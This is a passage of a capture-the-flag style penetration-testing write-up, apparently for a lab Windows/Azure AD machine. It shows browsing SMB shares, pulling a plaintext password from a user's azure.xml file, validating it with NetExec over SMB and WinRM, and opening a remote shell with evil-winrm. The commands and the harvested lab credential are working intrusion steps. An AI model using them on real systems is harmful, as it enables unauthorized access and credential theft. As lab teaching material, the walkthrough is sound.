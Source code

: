```shell
drw-rw-rw-          0  Fri Jan  3 08:12:48 2020 .
drw-rw-rw-          0  Fri Jan  3 08:12:48 2020 ..
drw-rw-rw-          0  Fri Jan  3 08:15:23 2020 dgalanos
drw-rw-rw-          0  Fri Jan  3 08:41:18 2020 mhope
drw-rw-rw-          0  Fri Jan  3 08:14:56 2020 roleary
drw-rw-rw-          0  Fri Jan  3 08:14:28 2020 smorgan
# cd mhope
# ls
drw-rw-rw-          0  Fri Jan  3 08:41:18 2020 .
drw-rw-rw-          0  Fri Jan  3 08:41:18 2020 ..
-rw-rw-rw-       1212  Fri Jan  3 09:59:24 2020 azure.xml
# mget azure.xml
[*] Downloading azure.xml
```
The azure.xml file contains the following:
```shell
cat azure.xml

��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
Since we found azure.xml in the folder of the user mhope, we can suppose that this is the password for that user, giving us the following credentials:
```shell
mhope:4n0therD4y@n0th3r$
```

But... where can we use that password?
# Foothold
## Testing Credentials using NetExec leading to Valid WinRM Credentials
We used the following NetExec commands to test the credentials on SMB and WinRM:
```shell
nxc smb 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r$' --continue-on-success
nxc winrm 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r$' --continue-on-success
```
Using impacket-psexec won't give us a shell, since the shares are not writeable. But using evil-winrm we can get shell access, thanks to the credentials being valid for WinRM:
```shell
evil-winrm -i 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r$'
```
The above evil-winrm command successfully granted us shell access as the user mhope.
